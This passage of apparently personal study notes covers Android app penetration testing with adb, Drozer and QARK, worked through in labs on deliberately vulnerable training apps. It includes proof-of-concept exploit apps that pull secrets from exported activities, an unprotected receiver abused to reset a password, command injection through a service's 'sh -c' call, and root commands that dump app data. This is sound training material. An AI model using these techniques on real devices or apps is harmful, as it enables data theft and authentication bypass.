	String[] cmd = {"sh", "-c", cmdExtra};
	Process p = Runtime.getRuntime().exec(cmd);
```



---

### Shared Preferences

**[SharedPreferences](https://developer.android.com/reference/android/content/SharedPreferences)** - used for storing and retrieving key-value pairs of primitive data types persistently (locally). It is commonly employed to save application settings, user preferences, or other small amounts of data that need to be preserved across app sessions.

- `/data/data/<package_name>/shared_prefs/` - only the app that created the `xml` files in this directory can access it
- using local access, backup, `adb`, this data can be retrieved

```bash
adb shell
su
cd /data/data/com.android.chrome/shared_prefs
cat *.xml
```





---

### Local Databases

Apps store their information in database files.

- `/data/data/<package_name>/databases/`

```bash
# e.g.
adb shell
su
ls -lah /data/data/com.google.android.music/databases
```



Check `.db` file by pulling them into the local pc and using `sqlite3` or `sqlitebrowser` tools.

```bash
adb pull /data/data/com.google.android.music/databases/config.db

# if Permission Denied error use su command like this

adb shell "su -c cp /data/data/com.google.android.music/databases/config.db /sdcard/Download"
adb pull /sdcard/Download/config.db

sqlitebrowser config.db
sqlite3 config.db

#sqlite3 commands
.help
.tables
.dump
.dump CONFIG

```



---

### Tools

#### [Drozer](https://github.com/WithSecureLabs/drozer)

- [drozer](https://github.com/WithSecureLabs/drozer) - search for security vulnerabilities in apps and devices by assuming the  role of an app and interacting with the Dalvik VM, other apps' IPC  endpoints and the underlying OS

Install [drozer-agent](https://github.com/WithSecureLabs/drozer-agent/releases/) app on the device, open it and turn on. From the command line use `Drozer` via docker to connect to the device.

> 🔗 [Android Pentesting Using Drozer - 1 - Tech Blogs](https://techblogs.42gears.com/android-pentesting-using-drozer-1/)

```bash
docker pull withsecurelabs/drozer
docker run --net host -it withsecurelabs/drozer console connect --server 192.168.40.78
```

```bash
dz> # drozer commands assuming
run app.package.list

run app.package.info -a org.owasp.goatdroid.fourgoats

run app.package.manifest org.owasp.goatdroid.fourgoats

run app.package.attacksurface org.owasp.goatdroid.fourgoats
    Attack Surface:
      4 activities exported
      1 broadcast receivers exported
      0 content providers exported
      1 services exported
        is debuggable

run app.activity.info -a org.owasp.goatdroid.fourgoats
run app.service.info -a org.owasp.goatdroid.fourgoats
run app.provider.info -a org.owasp.goatdroid.fourgoats
run app.broadcast.info -a org.owasp.goatdroid.fourgoats
```





- Check Vulnerability in the [🧪 Practice Lab 7](#practice-lab-7) and exploit it with the following commands

```bash
run app.broadcast.info –-package org.owasp.goatdroid.fourgoats

# An activity can be run with
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 5554 --extra string message "Hi there"
```



#### [QARK](https://github.com/linkedin/qark)

- [qwark](https://github.com/linkedin/qark) (Quick Android Review Kit) - look for several security related Android application vulnerabilities, either in source code or packaged APKs.
  - handles decompiling, attack surface enumeration, vuln detection, static code analysis with an HTML final report
  - creation of exploit APK to attack the target app

```bash
# Install qark
pipx install qark
```

```bash
cp goatdroid.apk ~/temp

cd ~/temp
qark --apk goatdroid.apk
```

- It will output a report in `/.local/pipx/venvs/qark/lib/python3.11/site-packages/qark/report/report.html`

> If it gives `W: Could not decode attr value, using undecoded value instead: ns=android, name=text, value=0x0000000d` error, try to fix it with following commands and re-run `qark --apk goatdroid.apk`
>
> ```bash
> mv ~/.local/share/apktool/framework/1.apk ~/.local/share/apktool/framework/1.apk.bak
> # Get a proper framework apk from a device /system/framework
> adb pull /system/framework/framework-res.apk
> mv framework-res.apk ~/.local/share/apktool/framework/1.apk
> ```

- Build a custom exploit `apk` with `qark`

```bash
qark --apk goatdroid.apk --exploit-apk --sdk-path ~/Android/Sdk/build-tools/34.0.0/ --debug
```

> ❗ Compilation may NOT work with Python 3.11.2, to fix it open the file
>
> ```bash
> nano ~/.local/pipx/venvs/qark/lib/python3.11/site-packages/qark/xml_helpers.py
> # Change line
> for child in string_array.getchildren():
> # with line
> for child in string_array:
> ```
>
> ❗ It still may not work because of `Could not determine java version from '17.0.9'.` eror.

---

## Dynamic Code Analysis

**Dynamic Code Analysis** is the examination of the application code, by executing the program in a normal, virtualized or in a debugger environment.

- examine the changes made to memory/file system as they occur
- intercept network requests
- check real-time encountered errors

### Debugging

- [Android Studio debugger](https://developer.android.com/studio/debug) - good with App's original source code, using breakpoints in the code, etc

**Debugging** is used in security to verify the conditions necessary to reach a know vulnerable piece of code, or for POC (Proof Of Concept) exploit development.

An Android app is considered **debuggable** based on the `android:debuggable` attribute in the `AndroidManifest.xml` file.

- when `android:debuggable="true"`, the app is debuggable
- this can **leak information** is someone can take the victim's device and connects it to a computer

```xml
<application
    android:debuggable="true"
    <!-- other attributes and elements -->
    >
    <!-- components (activities, services, etc.) -->
</application>
```

### ADB

[adb (Android Debug Bridge)](https://developer.android.com/tools/adb) - command line tool used to interact with Android devices/emulators, via USB cable or Network.

[BusyBox](https://play.google.com/store/apps/details?id=stericson.busybox&hl=it&gl=US) App for android can be useful too.

adb components:

- client (runs on host pc) - the program
- server (runs on host pc) - manages communication between the client and daemon
- daemon - runs in background on the device, executes commands passed via the server



```bash
sudo apt install adb

adb
adb help

adb devices
# starts the adb server on port 5037
adb devices -l
adb shell

# In case of problems with adb server
adb kill-server

# Direct shell command from host pc
(adb shell) pm list packages -3 -f
(adb shell) pm path <package_name>

# Copy files to/from device
adb push <local_file> <device_file>
adb pull <device_path> <local_path>

# Install/uninstall APK
adb install <apk_file>
adb uninstall <apk_file>

# Open shell as root
adb shell
su # once inside the device

# Run command as root
adb shell "su -c 'command-here'"

# Interact with specific defice if more device attached
adb -s <device_serial> get-state

# Connect device via Network
adb connect <IP:PORT>
```





#### Activity Manager

`adb shell am COMMAND` can start an activity, send broadcast intents, monitor system interaction, etc

```bash
# Active Manager
(adb shell) am start
(adb shell) am startservice
(adb shell) am broadcast
```

---

### 🧪 Practice Lab 10

> `NoteList` app lab files will be used.

**Objectives**

- Perform dynamic analysis using **ADB** and Activity Manager


Install the `NotesList.apk` on device.

```bash
adb devices
adb connect 192.168.40.81:5555
adb install NotesList.apk
```

Open `NotesList.apk` in `Jadx-GUI`.

- `AndroidManifest.xml`

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.example.android.notepad">
    <uses-sdk android:minSdkVersion="16" android:targetSdkVersion="16"/>
    <application android:label="@string/app_name" android:icon="@drawable/app_notes" android:debuggable="true">
        <provider android:name="NotePadProvider" android:exported="false" android:authorities="com.google.provider.NotePad">
            <grant-uri-permission android:pathPattern=".*"/>
        </provider>
        <activity android:label="@string/title_notes_list" android:name="NotesList">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <action android:name="android.intent.action.EDIT"/>
                <action android:name="android.intent.action.PICK"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="vnd.android.cursor.dir/vnd.google.note"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.GET_CONTENT"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="vnd.android.cursor.item/vnd.google.note"/>
            </intent-filter>
        </activity>
        <activity android:theme="@android:style/Theme.Holo.Light" android:name="NoteEditor" android:screenOrientation="sensor" android:configChanges="orientation|keyboardHidden">
            <intent-filter android:label="@string/resolve_edit">
                <action android:name="android.intent.action.VIEW"/>
                <action android:name="android.intent.action.EDIT"/>
                <action android:name="com.android.notepad.action.EDIT_NOTE"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="vnd.android.cursor.item/vnd.google.note"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.INSERT"/>
                <action android:name="android.intent.action.PASTE"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="vnd.android.cursor.dir/vnd.google.note"/>
            </intent-filter>
        </activity>
        <activity android:theme="@android:style/Theme.Holo.Dialog" android:label="@string/title_edit_title" android:icon="@drawable/ic_menu_edit" android:name="TitleEditor" android:windowSoftInputMode="stateVisible">
            <intent-filter android:label="@string/resolve_title">
                <action android:name="com.android.notepad.action.EDIT_TITLE"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.ALTERNATIVE"/>
                <category android:name="android.intent.category.SELECTED_ALTERNATIVE"/>
                <data android:mimeType="vnd.android.cursor.item/vnd.google.note"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/live_folder_name" android:icon="@drawable/live_folder_notes" android:name="NotesLiveFolder">
            <intent-filter>
                <action android:name="android.intent.action.CREATE_LIVE_FOLDER"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
    </application>
</manifest>
```



- `NotesList` activity has the action `MAIN` (the default intent that will be called if you tap the icon in the launcher)



- `NoteEditor` activity includes an action named `EDIT`
  - `<data android:mimeType="vnd.android.cursor.item/vnd.google.note"/>` - specifies the `mimeType` and the URI to use with the intent filter. This cursor will contain one item.

Interact with the app via `adb`.

- Activity name: `NotesList`
- Action name: `android.intent.action.MAIN`
- Package: `com.example.android.notepad`

```bash
adb shell am start -a android.intent.action.MAIN -n com.example.android.notepad/.NotesList
```

```bash
adb shell am start -a android.intent.action.EDIT -n com.example.android.notepad/.NoteEditor -d content://com.google.provider.NotePad/notes/1
```

---

### 🧪 Practice Lab 11

> `LeakResult` app lab files will be used.

**Objectives**

- Perform dynamic analysis using **ADB** and Activity Manager
- Reverse and find the app's attack surface
- Launch the `SecretActivity`, `LeakyActivity`, Bypass LeakResult app's authentication mechanism, check the logs for sensitive information
- Create a POC exploit application that sends an intent to the `LeakyActivity` Activity and extract the data returned, leveraging unprotected activities

**Lab**

Install `leakresult.apk` on the device

```bash
adb install leakresult.apk
```

Open `leakresult.apk` with `Jadx-GUI`

📌 `AndroidManifest.xml`

- **Package** - `com.elearnsecurity.insecureactivities`
- **Application** `debuggable` and `backupable`
- **minSdkVersion** - `15`
- **targetSdkVersion** - `23`
- **Permissions** - `GET_ACCOUNTS`, `READ_PROFILE`, `READ_CONTACTS`
- **Activities**
  - `LoginActivity` - action `MAIN`
  - `LeakyActivity` (exported) - action `leaky`
  - `SecretActivity` (exported) - action `bypass`

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" package="com.elearnsecurity.insecureactivities" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="23"/>
    <uses-permission android:name="android.permission.GET_ACCOUNTS"/>
    <uses-permission android:name="android.permission.READ_PROFILE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:debuggable="true" android:allowBackup="true" android:supportsRtl="true">
        <activity android:label="@string/app_name" android:name="com.elearnsecurity.insecureactivities.LoginActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity android:label="leaky" android:name="com.elearnsecurity.insecureactivities.LeakyActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.elearnsecurity.insecureactivities.leaky"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
        <activity android:label="secret" android:name="com.elearnsecurity.insecureactivities.SecretActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.elearnsecurity.insecureactivities.bypass"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
    </application>
</manifest>
```



Use `adb` to launch the found activities.

In a separate terminal run `logcat`/`pidcat`

```bash
pidcat.py com.elearnsecurity.insecureactivities
# or
adb shell logcat
```

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.LoginActivity
```

Bypass application's authentication.

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.SecretActivity
```


Launch the `LeakyActivity`

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.LeakyActivity
```

Check the "pidcat terminal" as it generates live logs

```bash
OOPS  V  I'm not good at keeping secrets!
	  V  My password is: password!?
```



📌 `LeakyActivity` class

```java
package com.elearnsecurity.insecureactivities;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.EditText;

/* loaded from: classes.dex */
public class LeakyActivity extends Activity {
    EditText editTextMessage;

    @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.layout2);
        Intent intentMessage = new Intent();
        intentMessage.putExtra("SECRET", "This is a super secret string");
        setResult(2, intentMessage);
        Log.v("OOPS", "I'm not good at keeping secrets!");
        Log.v("OOPS", "My password is: password!?");
        finish();
    }
}
```

📌 `SecretActivity` class

```java
package com.elearnsecurity.insecureactivities;

import android.app.Activity;
import android.os.Bundle;

/* loaded from: classes.dex */
public class SecretActivity extends Activity {
    @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.layout3);
    }
}
```

📌 An exploit application that will launch `LeakyActivity` can be created, since this activity is explicitly exported.

`LeakyActivity` Activity suffers from information leakage via:

1. **Sensitive Information Logging**
   - There are two logging statements (`Log.v`) that reveal sensitive information.
   - Logging sensitive information poses a security risk, especially if logs are accessible or exposed in a production environment.

2. **Intent with Secret Data**
   - The `intentMessage` object includes sensitive information using `putExtra("SECRET", "...")`.
   - Passing sensitive data via Intents may expose it to other components or apps if not handled securely.

An exploit application can:

`#1` launch `LeakyActivity` and parse the device's log files (on Android >=4.1 **rooted** device).

`#2` launch the unprotected activity using `startActivityForResult()` and overriding `onActivityResult()`

Create the application `#1`.

- this app is a weaponized version of the [MatLog](https://github.com/pluscubed/matlog) app with the only modification to exploit `LeakResult.apk` as following
  - in the `LogcatActivity.java` file add the following snippet after the `super.onCreate(savedInstanceState);`

```bash
Intent intent=new Intent();
intent.setComponent(new ComponentName("com.elearnsecurity.insecureactivities", "com.elearnsecurity.insecureactivities.LeakyActivity"));
startActivity(intent);
```



- When the exploit app is run, an **Intent** will be sent to the `LeakResult.apk` and `LeakyActivity` will be launched.
- Sensitive data should be seen in the exploit application's view (search for OOPS)

```bash
git clone https://github.com/pluscubed/matlog.git
```

Open `matlog/` directory in Android Studio.

- Upgrade Gradle as suggested by Android Studio
- Build the app - there are too many Build Scan and unsupported Gradle problems with `matlog` outdated source code, so I proceed with the install of the `LeakResult/exploit apks/matlog-master/app/app-debug.apk` from the course lab resources

```bash
adb install app-debug.apk
```

- With `LeakResult.apk` installed, run the installed `MatLog DEBUG` - Accept the `Superuser` permissions
- Search for `OOPS` in the app




Create the application `#2`.

- Opening the lab source code of the `HelloWorldExploit` app

  - launch `LeakyActivity` using `startActivityForResult()`

  - override the `onActivityResult` to extract the result `LeakActivity` returns

```java
static final int PICK_REQUEST = 1;  // The request code

@Override
protected void onCreate(Bundle savedInstanceState) {
	super.onCreate(savedInstanceState);

	Intent pickSecretIntent = new Intent();
	pickSecretIntent.setComponent(new ComponentName("com.elearnsecurity.insecureactivities", "com.elearnsecurity.insecureactivities.LeakyActivity"));
	startActivityForResult(pickSecretIntent, PICK_REQUEST);

	setContentView(R.layout.activity_hello_world);
}
```

```java
@Override
public void onActivityResult(int requestCode, int resultCode, Intent data) {
	if (requestCode == PICK_REQUEST) {
		if (resultCode == 2) {
			String secret = data.getStringExtra("SECRET");
			Log.v("SECRET",secret);

		}
	}
}
```



- When the exploit app is run, a `Hello world!` message will be displayed but on the background launches `LeakyActivity`, extract th result and wirtes it in its logs.

---

### 🧪 Practice Lab 12

> `VulnerableReceiver` app lab files will be used.

**Objectives**

- Perform dynamic analysis
- Reverse and find the app's attack surface
- Bypass authentication by exploiting an insecure broadcast receiver

**Lab**

Install `VulnerableReceiver.apk` on the device

```bash
adb install VulnerableReceiver.apk
```

Open `VulnerableReceiver.apk` with `Jadx-GUI`

📌 `AndroidManifest.xml`

- **Package** - `com.elearnsecurity.vulnerablereceiver`

- **Application** `debuggable` and `backupable`

- **minSdkVersion** - `20`

- **targetSdkVersion** - `23`

- **Activities**

  - `MainActivity` - action `MAIN`
  - `ProfitActivity` (not exported)

- **Receivers**
  - `VulnerableReceiver` (implicitly exported with Intent) - action `CHANGEPW`

```bash
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" package="com.elearnsecurity.vulnerablereceiver" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="20" android:targetSdkVersion="23"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:debuggable="true" android:allowBackup="true" android:supportsRtl="true">
        <activity android:theme="@style/AppTheme.NoActionBar" android:label="@string/app_name" android:name="com.elearnsecurity.vulnerablereceiver.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity android:label="Profit" android:name="com.elearnsecurity.vulnerablereceiver.ProfitActivity" android:exported="false"/>
        <receiver android:name="com.elearnsecurity.vulnerablereceiver.VulnerableReceiver">
            <intent-filter>
                <action android:name="com.elearnsecurity.vulnerablereceiver.CHANGEPW"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```



Use `adb` to launch the found activities.

In a separate terminal run `logcat`/`pidcat`

```bash
pidcat.py com.elearnsecurity.vulnerablereceiver
```

```bash
adb shell
su

am start -n com.elearnsecurity.vulnerablereceiver/.MainActivity
am start -n com.elearnsecurity.vulnerablereceiver/.ProfitActivity
```




Bypass application's authentication.

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.SecretActivity
```

📌 `MainActivity` class

- a random password is generated, but if an Intent is received with an Extra of `NEWPASS` the password is reset

```java
package com.elearnsecurity.vulnerablereceiver;

import android.content.Intent;
import android.os.Bundle;
import android.support.v4.media.TransportMediator;
import android.support.v7.app.AppCompatActivity;
import android.support.v7.widget.Toolbar;
import android.util.Log;
import android.view.Menu;
import android.view.MenuItem;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.Toast;
import java.math.BigInteger;
import java.security.SecureRandom;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    Button b1;
    EditText ed1;
    SecureRandom random = new SecureRandom();
    String password = new BigInteger((int) TransportMediator.KEYCODE_MEDIA_RECORD, this.random).toString(32);

    @Override // android.support.v7.app.AppCompatActivity, android.support.v4.app.FragmentActivity, android.support.v4.app.BaseFragmentActivityDonut, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Toolbar toolbar = (Toolbar) findViewById(R.id.toolbar);
        setSupportActionBar(toolbar);
        Log.v("PASSWORD", this.password);
        String newPassword = getIntent().getStringExtra("NEWPASS");
        if (newPassword != null && !newPassword.isEmpty()) {
            this.password = newPassword;
        }
        this.b1 = (Button) findViewById(R.id.button1);
        this.ed1 = (EditText) findViewById(R.id.editPassword);
        this.b1.setOnClickListener(new View.OnClickListener() { // from class: com.elearnsecurity.vulnerablereceiver.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View v) {
                if (MainActivity.this.ed1.getText().toString().equals(MainActivity.this.password)) {
                    Toast.makeText(MainActivity.this.getApplicationContext(), "Redirecting...", 0).show();
                    Intent intent = new Intent(v.getContext(), ProfitActivity.class);
                    MainActivity.this.startActivity(intent);
                    return;
                }
                Toast.makeText(MainActivity.this.getApplicationContext(), "Wrong Credentials", 0).show();
                Log.v("SETPASS", MainActivity.this.password);
                Log.v("ENTPASS", MainActivity.this.ed1.getText().toString());
            }
        });
    }

    @Override // android.app.Activity
    public boolean onCreateOptionsMenu(Menu menu) {
        getMenuInflater().inflate(R.menu.menu_main, menu);
        return true;
    }

    @Override // android.app.Activity
    public boolean onOptionsItemSelected(MenuItem item) {
        int id = item.getItemId();
        if (id == R.id.action_settings) {
            return true;
        }
        return super.onOptionsItemSelected(item);
    }
}
```

📌 `VulnerableReceiver` class

- implicitly exported due to `intent-filter` and with no permissions, any other app can pass an Intent to it
- the `onReceve` method takes a parameter which is an Intent named `newpass`, extracting an Extra named `PASSWORD`, then sent to `MainActivity` as an Intent with the password as an Extra

```java
package com.elearnsecurity.vulnerablereceiver;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;

/* loaded from: classes.dex */
public class VulnerableReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        Log.v("WORKING", "foo");
        String newpass = intent.getStringExtra("PASSWORD");
        Log.v("RECEIVED:", newpass);
        if (newpass != null && !newpass.isEmpty()) {
            Intent chpw = new Intent(context, MainActivity.class);
            chpw.setFlags(268435456);
            chpw.putExtra("NEWPASS", newpass);
            context.startActivity(chpw);
            Log.v("CHANGED", "Password changed to " + newpass);
        }
    }
}
```



Launch the attack via `adb` by interacting with the identified vulnerable broadcast receiver.

```bash
adb shell
su
am broadcast -a com.elearnsecurity.vulnerablereceiver.CHANGEPW -e PASSWORD 1234
```

- Password is set now, and login can be made with pw `1234`
  - The correct login will open `ProfitActivity`



---

### 🧪 Practice Lab 13

> `SillyService` app lab files will be used.

**Objectives**

- Perform dynamic analysis
- Reverse and find the app's attack surface
- Inspect log files

**Lab**

Install `SillyService.apk` on the device

```bash
adb install SillyService.apk
```

Open `SillyService.apk` with `Jadx-GUI`

📌 `AndroidManifest.xml`

- **Package** - `com.elearnsecurity.sillyservice`
- **Application** `debuggable` and `backupable`
- **minSdkVersion** - `15`
- **targetSdkVersion** - `23`
- **Permissions** - `WRITE_EXTERNAL_STORAGE`, `READ_EXTERNAL_STORAGE`, `WRITE_INTERNAL_STORAGE`, `READ_INTERNAL_STORAGE`
- **Activities**

  - `MainActivity` - action `MAIN`

- **Services**
  - `SillyService` (exported)

```bash
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" package="com.elearnsecurity.sillyservice" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="23"/>
    <permission android:name="WRITE_EXTERNAL_STORAGE"/>
    <permission android:name="READ_EXTERNAL_STORAGE"/>
    <permission android:name="WRITE_INTERNAL_STORAGE"/>
    <permission android:name="READ_INTERNAL_STORAGE"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:debuggable="true" android:allowBackup="true" android:supportsRtl="true">
        <activity android:name="com.elearnsecurity.sillyservice.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <service android:name="com.elearnsecurity.sillyservice.SillyService" android:exported="true"/>
    </application>
</manifest>
```



Use `adb` to launch the found activities.

In a separate terminal run `logcat`/`pidcat`

```bash
pidcat.py com.elearnsecurity.sillyservice
```

```bash
adb shell
su

am start -n com.elearnsecurity.sillyservice/.MainActivity
```

📌 `SillyService` class

- `cmdExtra` value is drawn from an Extra named `COMMAND`
- the `if` statement ensures that the received command start with the string `find`, then the value of the Extra is passed to **String Array** `cmd`
- once `cmd` is compiled, it is passed to the `exec` method of the **Runtime** object - resulting in binary executable files to be spawned as separate process = arbitrary command execution ❗️



```java
package com.elearnsecurity.sillyservice;

import android.app.Service;
import android.content.Intent;
import android.os.IBinder;
import android.util.Log;
import android.widget.Toast;
import java.io.BufferedReader;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.io.OutputStreamWriter;

/* loaded from: classes.dex */
public class SillyService extends Service {
    @Override // android.app.Service
    public IBinder onBind(Intent arg0) {
        return null;
    }

    @Override // android.app.Service
    public int onStartCommand(Intent intent, int flags, int startId) {
        Toast.makeText(this, "Service Started", 1).show();
        try {
            String cmdExtra = intent.getStringExtra("COMMAND");
            String secret = getString(R.string.private_data);
            WriteData(secret);
            if (cmdExtra.startsWith("find")) {
                System.out.println("TOTALLY SECURE");
                String[] cmd = {"sh", "-c", cmdExtra};
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader input = new BufferedReader(new InputStreamReader(p.getInputStream()));
                while (true) {
                    String outLine = input.readLine();
                    if (outLine == null) {
                        break;
                    }
                    System.out.println(outLine);
                    if (outLine.matches("/data/data/com.elearnsecurity.sillyservice/files/private.txt")) {
                        Toast.makeText(this, "File found: " + outLine, 1).show();
                    }
                }
                BufferedReader errors = new BufferedReader(new InputStreamReader(p.getErrorStream()));
                while (true) {
                    String errorLine = errors.readLine();
                    if (errorLine != null) {
                        System.out.println("ERRORS: " + errorLine);
                    } else {
                        return 1;
                    }
                }
            } else {
                System.out.println("ONLY THE FIND COMMAND IS ALLOWED");
                Toast.makeText(this, "Only the find command is allowed", 1).show();
                return 1;
            }
        } catch (Exception e) {
            Log.v("ERROR", e.toString());
            return 1;
        }
    }

    @Override // android.app.Service
    public void onDestroy() {
        super.onDestroy();
        Toast.makeText(this, "Service Destroyed", 1).show();
    }

    public void WriteData(String data) {
        try {
            FileOutputStream fileout = openFileOutput("private.txt", 0);
            OutputStreamWriter outputWriter = new OutputStreamWriter(fileout);
            outputWriter.write(data);
            outputWriter.close();
            System.out.println("File Successfully Written");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Exploit this vulnerability via `adb`.

```bash
adb shell am startservice -n com.elearnsecurity.sillyservice/.SillyService -e "COMMAND" "'find /data/data/com.elearnsecurity.sillyservice -name private.txt'"

adb shell am startservice -n com.elearnsecurity.sillyservice/.SillyService -e "COMMAND" "ls"
# ONLY THE FIND COMMAND IS ALLOWED

adb shell am startservice -n com.elearnsecurity.sillyservice/.SillyService -e "COMMAND" "'find /data/data/com.elearnsecurity.sillyservice -name private.txt -exec cat {} \;'"
# PERMISSION DENIED on Device with API Level 24

adb shell am startservice -n com.elearnsecurity.sillyservice/.SillyService -e "COMMAND" "'find /data/data/com.elearnsecurity.sillyservice'"
```



---

### 🧪 Practice Lab 14

> `WeakWallet` app lab files will be used.

**Objectives**

- Perform dynamic analysis
- Reverse and find the app's attack surface
- Interact with the Content Provider, manipulate database

**Lab**

Install `weakwallet.apk` on the device

```bash
adb install weakwallet.apk
```

Open `weakwallet.apk` with `Jadx-GUI`

📌 `AndroidManifest.xml`

- **Package** - `com.elearnsecurity.weakwallet`
- **Application** `debuggable` and `backupable`
- **minSdkVersion** - `15`
- **targetSdkVersion** - `23`
- **Activities**

  - `MainActivity` - action `MAIN`

- **Providers**
  - `VulnerableProvider` class with authority `com.elearnsecurity.provider.Wallet`

```bash
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" package="com.elearnsecurity.weakwallet" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="23"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@drawable/ic_launcher" android:debuggable="true" android:allowBackup="true">
        <activity android:label="@string/app_name" android:name="com.elearnsecurity.weakwallet.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <provider android:name="com.elearnsecurity.weakwallet.VulnerableProvider" android:authorities="com.elearnsecurity.provider.Wallet"/>
    </application>
</manifest>
```



📌 `VulnerableProvider` class

```java
package com.elearnsecurity.weakwallet;

import android.content.ContentProvider;
import android.content.ContentUris;
import android.content.ContentValues;
import android.content.Context;
import android.content.UriMatcher;
import android.database.Cursor;
import android.database.SQLException;
import android.database.sqlite.SQLiteDatabase;
import android.database.sqlite.SQLiteOpenHelper;
import android.database.sqlite.SQLiteQueryBuilder;
import android.net.Uri;
import android.text.TextUtils;
import java.util.HashMap;

/* loaded from: classes.dex */
public class VulnerableProvider extends ContentProvider {
    static final int CARDS = 1;
    private static HashMap<String, String> CARDS_PROJECTION_MAP = null;
    static final String CARDS_TABLE_NAME = "cards";
    static final int CARD_ID = 2;
    static final String CREATE_DB_TABLE = " CREATE TABLE cards (_id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL,  number TEXT NOT NULL);";
    static final String DATABASE_NAME = "Wallet";
    static final int DATABASE_VERSION = 1;
    static final String NAME = "name";
    static final String NUMBER = "number";
    static final String PROVIDER_NAME = "com.elearnsecurity.provider.Wallet";
    static final String _ID = "_id";
    private SQLiteDatabase db;
    static final String URL = "content://com.elearnsecurity.provider.Wallet/cards";
    static final Uri CONTENT_URI = Uri.parse(URL);
    static final UriMatcher uriMatcher = new UriMatcher(-1);

    static {
        uriMatcher.addURI(PROVIDER_NAME, CARDS_TABLE_NAME, 1);
        uriMatcher.addURI(PROVIDER_NAME, "cards/#", 2);
    }

    /* loaded from: classes.dex */
    private static class DatabaseHelper extends SQLiteOpenHelper {
        DatabaseHelper(Context context) {
            super(context, VulnerableProvider.DATABASE_NAME, (SQLiteDatabase.CursorFactory) null, 1);
        }

        @Override // android.database.sqlite.SQLiteOpenHelper
        public void onCreate(SQLiteDatabase db) {
            db.execSQL(VulnerableProvider.CREATE_DB_TABLE);
        }

        @Override // android.database.sqlite.SQLiteOpenHelper
        public void onUpgrade(SQLiteDatabase db, int oldVersion, int newVersion) {
            db.execSQL("DROP TABLE IF EXISTS cards");
            onCreate(db);
        }
    }

    @Override // android.content.ContentProvider
    public boolean onCreate() {
        Context context = getContext();
